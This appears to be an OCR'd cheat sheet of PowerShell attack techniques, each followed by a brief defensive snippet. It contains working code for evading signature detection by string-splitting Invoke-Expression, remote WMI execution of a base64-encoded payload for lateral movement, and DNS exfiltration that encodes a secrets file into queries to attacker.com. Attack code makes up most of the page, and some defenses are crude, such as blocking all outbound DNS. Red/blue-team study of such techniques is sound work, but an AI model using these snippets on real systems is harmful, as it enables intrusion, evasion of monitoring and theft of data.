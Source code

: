 ### **1. Advanced Obfuscation & Execution Techniques**  
#### **A. Environment Variable-Based Execution**  
```powershell  
# Store and execute commands via environment variables  
$cmd = "calc.exe"  
[System.Environment]::SetEnvironmentVariable("EvilVar", $cmd, "User")  
Start-Process $env:EvilVar  
```  
- **Purpose**: Hides execution inside environment variables.  
- **Defense**:  
  ```powershell  
  # Monitor environment variable changes  
  Get-ChildItem Env: | Where-Object { $_.Value -match "calc.exe" }  
  ```  

#### **B. String-Splitting to Evade Detection**  
```powershell  
# Split command to evade signature-based detection  
$c = "Invo" + "ke-Expression"  
& $c "Start-Process notepad.exe"  
```  
- **Purpose**: Avoids detection by breaking up suspicious strings.  
- **Defense**:  
  ```powershell  
  # Enable AMSI and script block logging  
  Set-MpPreference -DisableScriptScanning $false  
  Set-ItemProperty -Path "HKLM:\Software\Policies\Microsoft\Windows\PowerShell\ScriptBlockLogging" -Name "EnableScriptBlockLogging" -Value 1  
  ```  

---

### **2. Stealthy Lateral Movement**  
#### **A. WMI with Encoded Payloads**  
```powershell  
# Execute encoded payload on a remote machine  
$payload = [Convert]::ToBase64String([Text.Encoding]::UTF8.GetBytes("Start-Process C:\malware.exe"))  
Invoke-WmiMethod -Class Win32_Process -ComputerName TARGET -Name Create -ArgumentList "powershell -EncodedCommand $payload"  
```  
- **Purpose**: Executes payloads remotely without writing to disk.  
- **Defense**:  
  ```powershell  
  # Monitor WMI activity  
  Get-WinEvent -LogName "Microsoft-Windows-WMI-Activity/Operational" | Where-Object { $_.Message -match "Win32_Process" }  
  ```  

---

### **3. DNS-Based C2 Communication**  
#### **A. Exfiltrate Data via DNS Requests**  
```powershell  
# Send stolen data over DNS  
$data = [Convert]::ToBase64String([IO.File]::ReadAllBytes("C:\secrets.txt"))  
Resolve-DnsName -Name "$data.attacker.com" -Type TXT  
```  
- **Purpose**: Bypasses network monitoring by using DNS.  
- **Defense**:  
  ```powershell  
  # Block abnormal DNS queries  
  New-NetFirewallRule -DisplayName "Block DNS Exfiltration" -Direction Outbound -Action Block -Protocol UDP -RemotePort 53  
  ```  